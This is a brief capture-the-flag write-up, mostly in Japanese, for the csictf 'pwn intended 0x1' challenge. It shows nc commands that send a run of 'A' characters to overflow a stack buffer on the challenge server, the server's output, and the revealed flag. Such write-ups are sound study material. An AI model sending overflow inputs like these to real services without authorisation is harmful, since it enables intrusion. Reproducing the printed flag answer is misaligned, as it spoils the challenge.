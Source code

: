 # pwn intended 0x1:Pwn:XXXpts<!--XXX-->
I really want to have some coffee!  
nc chall.csivit.com 30001  
[pwn-intended-0x1](pwn-intended-0x1)  

# Solution
BOF問だと思ったのではじめにncして適当にAを50ほど入力した。  
```bash
$ nc chall.csivit.com 30001
Please pour me some coffee:
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Thanks!

Oh no, you spilled some coffee on the floor! Use the flag to clean it.
csictf{y0u_ov3rfl0w3d_th@t_c0ff33_l1ke_@_buff3r}
```
flagがでた。  
おそらくスタックの変数を壊す問題だったようだ。  
以下が想定解。  
```bash
$ echo "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA" | nc chall.csivit.com 30001
Please pour me some coffee:

Thanks!

Oh no, you spilled some coffee on the floor! Use the flag to clean it.
csictf{y0u_ov3rfl0w3d_th@t_c0ff33_l1ke_@_buff3r}
```

## csictf{y0u_ov3rfl0w3d_th@t_c0ff33_l1ke_@_buff3r}